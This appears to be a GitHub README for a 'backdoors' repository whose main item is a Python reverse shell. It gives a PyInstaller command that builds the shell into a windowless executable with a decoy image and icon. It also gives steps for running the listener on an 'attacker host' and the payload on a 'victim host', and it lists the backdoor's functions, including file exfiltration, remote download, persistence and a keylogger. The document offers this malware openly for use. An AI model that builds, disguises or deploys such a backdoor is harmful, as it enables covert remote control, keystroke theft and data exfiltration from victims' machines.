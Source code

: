 # backdoors
Basic scripts and reverse shell programs

## Reverse Shell

### Compile
The backdoor [reverse_shell.exe](/reverse_shell/dist/) is compiled using pyinstaller:  
```
python -m PyInstaller reverse_shell.py --onefile --noconsole --add-data="assets/image.jpg;." --icon=assets/image.ico
```

### Usage
1. Edit the ```host``` variable on both server.py and reverse_shell.py, setting the **(IP, port)** of the host that will run the ```server.py``` 
2. Recompile the reverse_shell.py  
3. Start ```server.py``` on the attacker host  
4. Start ```reverse_shell.exe``` on victim host
5. On server, type ```help``` to show commands instructions

```
* Shell#~('127.0.0.1', 64673): help
Available functions:
- cd {path} => change host directory
- download {file} => Download a file from host
- upload {file} => Upload a file to the host
- persistence => Try acquiring persistence
- get {url} => Download a remote file
- isadmin => Check user privileges
- keylogger start|dump|stop => start the keylogger|dump the log keylog|stop the keylogger
- exit => quit the service
```
